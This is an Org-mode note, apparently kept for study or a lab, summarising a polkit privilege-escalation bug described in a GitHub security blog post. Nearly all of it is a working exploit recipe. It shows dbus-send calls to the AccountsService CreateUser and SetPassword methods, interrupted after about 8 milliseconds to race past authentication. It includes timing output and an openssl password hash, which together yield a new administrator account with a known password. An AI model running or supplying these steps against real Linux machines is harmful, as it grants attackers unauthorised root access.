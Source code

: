:PROPERTIES:
:ID:       1c1126e1-62bd-41be-9075-71693b51c73f
:END:
#+title: polkit priv esc
        #+created: [2025-02-27 Thu 09:35]
        #+last_modified: [2025-02-27 Thu 09:35]
From: https://github.blog/security/vulnerability-research/privilege-escalation-polkit-root-on-linux-with-bug/

* Intel
#+begin_src bash
   pkexec reboot

   # create a new user
   dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1
  #+end_src
We want to ensure that ~accountsservice~ and ~gnome-control-center~ are installed.

run our commands within an SSH session; ~ssh localhost~

We want to run a ~dbus-send~, with an interrupt about half-way through
      #+BEGIN_SRC bash
   # dbus send interrupt
   time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1
#+END_SRC
We first run the above once to get how long it takes to error out
#+begin_src bash
  Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required

  real 0m0.016s
  user 0m0.005s
  sys 0m0.000s
#+end_src
* User creation
We should be able to run this
#+BEGIN_SRC bash
  dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.008s ; kill $!
#+END_SRC

~id boris~ to see whether the user is created, mess around with the timer if not created
** Password
*** Hash
#+BEGIN_SRC bash
  openssl passwd -5 iaminvincible!
#+END_SRC
This will generate a hash that you can pass to dbus
*** Send to dbus
#+BEGIN_SRC bash
  dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$Fv2PqfurMmI879J7$ALSJ.w4KTP.mHrHxM2FYV3ueSipCf/QSfQUlATmWuuB' string:GoldenEye & sleep 0.008s ; kill $!
#+END_SRC

